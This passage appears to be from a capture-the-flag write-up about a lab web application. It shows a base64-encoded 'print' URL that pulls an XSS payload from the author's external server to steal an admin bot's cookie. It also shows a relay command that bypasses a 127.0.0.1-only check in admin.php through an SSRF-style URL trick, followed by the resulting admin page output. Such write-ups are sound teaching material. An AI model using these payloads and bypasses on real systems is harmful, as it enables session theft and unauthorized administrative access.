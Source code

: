 So we can see that the server included our xss payload. We submitted the URL triggering the xss (`http://10.13.37.13/?page=print&url=aHR0cDovLzEwLjEzLjM3LjEzLmYwcmtpLmF0L3hzcy5o`) for checking (via the *contact* page, see above).

This url also bypasses the proper host checking in `admin.php`, because of course this is a URL on the same site. After a couple of seconds we could see that some client (the bot) connects to our webserver, fetches the payload and then we can check the error logs for the cookie, etc. But in that case the cookie doesn't buy us much, since it's not used anywhere. We need a different XSS payload.

### The admin.php 127.0.0.1 check

Unfortunately the `admin.php` script had a rather lazy, but for a xss hacker also nasty check at the top:

```php
<?php
[...]
//lazy admin approach to "authenticate"
if($_SERVER['REMOTE_ADDR'] !== '127.0.0.1') {
    die('You are not allowed.');
[...]
?>
}
```

We can bypass this check using the trick from above, including a *localhost* page instead of our xss endpoint. The `index.php` (loading the file via its `print` view) is is able to reach the `admin.php` via a localhost connection and therefore passes the authentication check.

```
$ python relay.py 'http://10.13.37.13@127.0.0.1/admin.php'
http://10.13.37.13/?page=print&url=aHR0cDovLzEwLjEzLjM3LjEzQDEyNy4wLjAuMS9hZG1pbi5waHA=

<!DOCTYPE html>
<html lang="en">

[...]

<!DOCTYPE html>
<html lang="en">

[...]

    <div class="container">

      <div class="starter-template">
        <h1>Homepage - Admin Panel</h1>
        <p class="lead">Nothing.</p>       <!-- this is from the admin page -->
      </div>

    </div><!-- /.container -->


    <!-- Bootstrap core JavaScript
    ================================================== -->
    <!-- Placed at the end of the document so the pages load faster -->
    <script src="https://ajax.googleapis.com/ajax/libs/jquery/1.12.4/jquery.min.js"></script>
    <script src="http://10.13.37.13/public/bootstrap.min.js"></script>
  </body>
</html>
</p>

[...]
</html>
```
